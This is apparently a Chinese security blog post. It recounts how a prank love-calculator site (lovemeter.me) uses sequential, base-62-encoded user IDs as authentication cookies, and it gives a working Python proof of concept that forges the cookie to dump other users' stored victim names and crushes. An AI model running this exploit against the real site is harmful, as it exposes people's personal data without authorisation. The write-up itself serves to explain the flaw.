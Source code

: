 # 資安小故事 000 - 餅乾猜猜樂

事情是這樣的，我在別人的挨居的自介上面看到一個連結，就好奇的點了進去

<img style="height: 500px;" src="../../../img/lovemeter-1.png">

裡面看起來就是那種心裡測驗的網站，愛情計算器，幫你測你和喜歡的人配不配

聰明如我<del>資安小天才</del>，當然是隨便亂打個 abcd 就送出看看這是在耍什麼花樣

<img style="height: 500px;" src="../../../img/lovemeter-2.png">

果然是愚弄人的網站，如果你誠實的填上你的名字和你喜歡的人的名字，就被分享給你連結的人看光光啦

在你生氣的同時，這個網站就很好心的讓你註冊一下好發洩怨氣

那我當然也順手按了一下註冊（免錢的隨手按一下），這時候就可以把連結分享給別人囉

這個可以看中了我的圈套的受害者名單的頁面，我只要把 cookie 清掉，就會被帶到前面第一個愛情計算器（陷阱）頁面，代表他有用 cookie 去驗證你是誰

* 有對的 cookie 他會給我受害者名單
* 不對的 cookie 他會讓我掉進陷阱

那在看看他的 cookie 之前眼尖的我，就發現他的 url 有些地方像像的，而且後面的 userid 很短

* `https://cn.lovemeter.me/user/5S1X`
* `https://cn.lovemeter.me/user/5S1Y`
* `https://cn.lovemeter.me/user/5S1Z`

多註冊幾次會發現，他的 userid 怎麼感覺好像是每次 counter++

再多嘗試幾次，就會發現 userid 的字元只會是 `0-9a-zA-Z` 的字元組成

然後重點是他的 cookie 是個數字，而且完完全全是 counter++ 的樣子

* `user_quiz_1399337=1399337`
* `user_quiz_1399337=1399338`
* `user_quiz_1399337=1399339`

那這個 userid 跟這個 cookie 的 id 的對照是怎麼樣的呢

猜一猜就能發現他其實是把 `0-9a-zA-Z` 當成 `0-61` 的 62 進位（很合理吧）

```python
convert('5S1X') =  5 * (62 ** 3) +
                  54 * (62 ** 2) +
                   1 * (62 ** 1) +
                  59 * (62 ** 0) = 1399337
```

那我們只要把他的 userid 轉回數字，並新增個 cookie，就能成功看到別人的受害者名單囉

## Proof Of Concept ( POC )

```python tab="source"
#!/usr/bin/env python3
import re
import sys
import json
import string
from prettytable import PrettyTable
import requests

if len(sys.argv) < 2:
    print('usage: ./lovemeter.py (url)')
    exit(0)

value = string.digits + string.ascii_letters

def uid2num(uid):
    num = 0
    for ch in uid:
        v = value.index(ch)
        num = num * len(value) + v
    return num

def num2uid(num):
    uid = ''
    while num > 0:
        v = num % len(value)
        uid += value[v]
        num //= len(value)
    return uid[::-1]

url = sys.argv[1]
r = re.search('https:\/\/(\w+)\.lovemeter.me\/\w+\/(\w+)', url)
prefix = r.group(1)
uid = r.group(2)
num = uid2num(uid)

r = requests.get(f'https://{prefix}.lovemeter.me/other-user-stats/{uid}', headers = {
    'cookie': f'user_quiz_{num}={num}',
    'user-agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 11_0 like Mac OS X) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/11.0 Mobile/15A5370a Safari/604.1'
})

data = json.loads(r.text)['data']
t = PrettyTable(['名字', '喜歡的人'])
for item in data:
    item = json.loads(item)
    t.add_row([item['userFullName'], item['crushFullName']])
print(t)
```

```bash tab="usage"
./lovemeter.py https://cn.lovemeter.me/user/1234
```
